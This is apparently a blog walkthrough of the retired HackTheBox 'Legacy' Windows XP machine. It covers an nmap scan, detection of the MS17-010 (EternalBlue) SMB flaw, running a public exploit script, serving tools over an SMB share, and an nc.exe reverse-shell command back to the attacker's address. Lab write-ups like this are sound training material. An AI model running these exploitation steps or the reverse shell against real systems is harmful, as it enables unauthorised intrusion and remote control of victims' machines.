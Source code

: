 ```yaml
---
title: Legacy - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-20 12:00:00 
categories: [HackTheBox,Windows]
tags: [smb,ms17-010]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Legacy/00-banner.png
  width: 590
  height: 364
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Legacy` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Tue Oct 19 19:13:45 2021 as: nmap -sC -sV -v -oN nmap-scan -Pn 10.129.239.226
Nmap scan report for 10.129.239.226
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
| nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c3:a2 (VMware)
| Names:
|_
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-10-25T05:11:43+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 19 19:14:55 2021 -- 1 IP address (1 host up) scanned in 69.95 seconds
```
## Smb Enumeration
It seems the vector attack will be through smb, I used `nmap` to test if ther any vulnerability in this service.

![01-smb.png](/assets/img/HTB/Legacy/01-smb.png)

And it show us it is vulnerable to `CVE-2008-4250` and `CVE-2017-0143` this time I chose use CVE-2017-0143.

# Exploitation
This vulnerability is called `Eternal Blue` which is an exploit that allows attacker to remotely execute arbitrary code and gain access to a network by sending specially crafted packets.

To exploit it, just need clone this [repository](https://github.com/3ndG4me/AutoBlue-MS17-010).
```console
$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
```
And run `zzz_exploit.py` like the screenshot below.

![02-eternalblue.png](/assets/img/HTB/Legacy/02-eternalblue.png)

`whoami` doesn't work but we have this executable on our machine.

![03-whoami.png](/assets/img/HTB/Legacy/03-whoami.png)

Share this directory using `smbserver.py`.

![04-smbserver.png](/assets/img/HTB/Legacy/04-smbserver.png)

Once we created a share folder just execute whoami.exe

![05-whoami.png](/assets/img/HTB/Legacy/05-whoami.png)

Also we can use `nc.exe` to send a reverse shell to our netcat listener port.
```console
$ \\10.10.14.75\Folder\nc.exe -e cmd 10.10.14.75 443
```
![06-nc.png](/assets/img/HTB/Legacy/06-nc.png)

Just change the directory to `C:\Documents and Settings` where are located the home directories of Administrator and John.

![07-root.png](/assets/img/HTB/Legacy/07-root.png)

We got root.txt
That’s it for now guys. Until next time.

# Resources
- https://www.cisecurity.org/wp-content/uploads/2019/01/Security-Primer-EternalBlue.pdf
- https://github.com/3ndG4me/AutoBlue-MS17-010
